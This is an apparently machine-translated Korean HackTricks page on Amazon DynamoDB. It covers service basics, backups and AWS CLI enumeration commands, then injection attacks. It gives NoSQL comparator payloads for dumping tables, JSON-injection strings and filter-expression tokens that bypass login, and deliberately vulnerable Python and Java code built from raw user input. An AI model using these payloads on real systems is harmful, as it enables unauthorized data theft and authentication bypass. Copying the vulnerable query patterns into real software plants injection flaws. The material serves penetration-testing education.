 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### 기본 정보

Amazon DynamoDB는 AWS에서 **완전 관리형, 서버리스, 키-값 NoSQL 데이터베이스**로 제공되며, 크기에 관계없이 고성능 애플리케이션을 지원하도록 설계되었습니다. 이 서비스는 내재된 보안 조치, 중단 없는 백업, 여러 지역에 걸친 자동 복제, 통합 인메모리 캐싱 및 편리한 데이터 내보내기 유틸리티를 포함한 강력한 기능을 보장합니다.

DynamoDB의 맥락에서 전통적인 데이터베이스를 설정하는 대신, **테이블이 생성됩니다**. 각 테이블은 **테이블의 기본 키**의 필수 구성 요소로 **파티션 키**의 지정을 요구합니다. 이 파티션 키는 본질적으로 **해시 값**으로, 항목 검색 및 다양한 호스트에 걸친 데이터 분배에서 중요한 역할을 합니다. 이 분배는 데이터베이스의 확장성과 가용성을 유지하는 데 필수적입니다. 또한, 데이터 조직을 더욱 세분화하기 위해 **정렬 키**를 포함할 수 있는 옵션이 있습니다.

### 암호화

기본적으로 DynamoDB는 **Amazon DynamoDB에 속하는** KMS 키를 사용하며, 귀하의 계정에 최소한 속하는 AWS 관리 키조차 사용하지 않습니다.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 백업 및 S3로 내보내기

**테이블 백업** 생성을 **예약**하거나 **요청**에 따라 생성할 수 있습니다. 또한, **테이블에 대한 시점 복구(PITR)를 활성화**할 수도 있습니다. 시점 복구는 우발적인 쓰기 또는 삭제 작업으로부터 보호하기 위해 DynamoDB 데이터의 지속적인 **백업**을 **35일** 동안 제공합니다.

**테이블의 데이터를 S3로 내보내는** 것도 가능하지만, 테이블에 **PITR이 활성화되어 있어야** 합니다.

### GUI

[다이나모DB 로컬](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) 등과 같은 로컬 Dynamo 서비스에 대한 GUI가 있으며, 유용할 수 있습니다: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 열거
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 인증되지 않은 접근

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access/README.md
{{#endref}}

### 권한 상승

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc/README.md
{{#endref}}

### 포스트 익스플로잇

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### 지속성

{{#ref}}
../aws-persistence/aws-dynamodb-persistence/README.md
{{#endref}}

## DynamoDB 주입

### SQL 주입

DynamoDB 데이터에 **SQL 구문**으로 접근할 수 있는 방법이 있으므로, 일반적인 **SQL 주입도 가능합니다**.

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html
{{#endref}}

### NoSQL 주입

DynamoDB에서는 데이터를 검색하기 위해 다양한 **조건**을 사용할 수 있으며, 일반적인 NoSQL 주입에서 **더 많은 조건을 연결하여** 데이터를 검색할 수 있다면 숨겨진 데이터(또는 전체 테이블을 덤프할 수 있음)를 얻을 수 있습니다.\
여기에서 DynamoDB에서 지원하는 조건을 찾을 수 있습니다: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

**`query`** 또는 **`scan`**을 통해 데이터에 접근할 경우 **다른 조건**이 지원된다는 점에 유의하세요.

> [!NOTE]
> 실제로, **Query** 작업은 작동하기 위해 **기본** 키에서 **조건 "EQ" (같음)**을 지정해야 하므로, **NoSQL 주입에 덜 취약**하게 만들고(또한 작업을 매우 제한적으로 만듭니다).

비교를 **변경**하거나 새로운 비교를 추가할 수 있다면, 더 많은 데이터를 검색할 수 있습니다.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html
{{#endref}}

### 원시 Json 주입

> [!CAUTION]
> **이 취약점은 현재 사용 중단된 dynamodb Scan Filter에 기반합니다!**

**DynamoDB**는 DB 내에서 데이터를 **검색**하기 위해 **Json** 객체를 수락합니다. 검색을 위해 전송된 json 객체에 작성할 수 있는 경우, DB 덤프를 생성하여 모든 내용을 가져올 수 있습니다.

예를 들어, 다음과 같은 요청에 주입:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
공격자는 다음과 같은 것을 주입할 수 있습니다:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ID 1000을 검색하는 "EQ" 조건을 수정한 다음, Id 문자열이 0보다 큰 모든 데이터를 찾습니다. 이는 모두 포함됩니다.

또 다른 **로그인을 사용하는 취약한 예**는 다음과 같습니다:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
이것은 다음과 같은 취약점에 노출될 수 있습니다:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

일부 SDK는 수행할 필터링을 나타내는 문자열을 사용할 수 있습니다.
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
DynamoDB에서 **필터 표현식**에서 속성 **값**을 **대체**하기 위해 항목을 스캔할 때, 토큰은 **`:`** 문자로 **시작해야** 합니다. 이러한 토큰은 **런타임에 실제 속성 값으로 대체**됩니다.

따라서 이전과 같은 로그인을 우회할 수 있는 방법은 다음과 같습니다:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}

